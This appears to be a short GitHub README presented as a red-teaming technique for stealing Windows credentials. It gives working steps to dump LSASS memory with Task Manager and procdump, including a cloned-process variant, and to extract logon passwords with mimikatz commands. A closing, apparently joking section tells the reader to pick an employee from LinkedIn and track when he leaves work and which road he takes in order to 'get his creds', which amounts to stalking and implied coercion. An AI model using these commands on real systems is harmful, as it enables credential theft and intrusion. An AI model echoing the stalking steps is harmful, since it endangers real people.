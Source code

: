 # the_new_redteaming_technique

First OF all, Create a minidump of the lsass.exe using task manager (must be running as administrator):

![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nTRoRHqLqkBWb_aw4%2FScreenshot%20from%202019-03-12%2019-55-27.png?alt=media&token=0c8f45d6-6425-4d5a-8e3f-1f30ff4577ec)

![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nTYMBz-VWM11dadu6%2FScreenshot%20from%202019-03-12%2019-56-12.png?alt=media&token=f92b493e-f1aa-4a46-8edf-d64eebdd9f65)




Second , Swtich mimikatz context to the minidump:

sekurlsa::minidump C:\Users\ADMINI~1.OFF\AppData\Local\Temp\lsass.DMP
sekurlsa::logonpasswords



![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nT6tDqGhJv_fdKOnw%2FScreenshot%20from%202019-03-12%2019-54-15.png?alt=media&token=cccc99d5-632c-40aa-903d-d89c21fb1133)







Now it's a time for Procdump

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```



![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nX2I6LfCsWLSkjzwg%2FScreenshot%20from%202019-03-12%2020-11-28.png?alt=media&token=43e85fd4-36bf-43ba-9fd9-62d43712e1e8)




![alt text](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nQv2zz6p9_9DMKQfx%2F-L_nXVaJRSNnJZayxbL_%2FScreenshot%20from%202019-03-12%2020-13-25.png?alt=media&token=4e87b3ef-c690-4b43-b3f6-0ba244495398)






After doing all of the above steps, you need to do the following steps: 

1- try to figure the needed employee from Linkedin profile of the company 


![alt text](https://www.google.com/url?sa=i&url=https%3A%2F%2Flogos-download.com%2F1823-linkedin-logo-download.html&psig=AOvVaw0tv4BK3THakvGafc_4AQVh&ust=1651756983385000&source=images&cd=vfe&ved=0CAwQjRxqFwoTCNjai7X4xfcCFQAAAAAdAAAAABAD)



2- try to know when the employee will leave the work and which road he will take 


![alt text](https://logos-download.com/wp-content/uploads/2016/05/Google_Maps_logo_icon.png)


3- use this technique to get his creds 

![alt text](https://i.ibb.co/vQVQXkQ/279407320-359224712933498-202643383967457168-n.jpg)




PS : all screen shots are from https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz
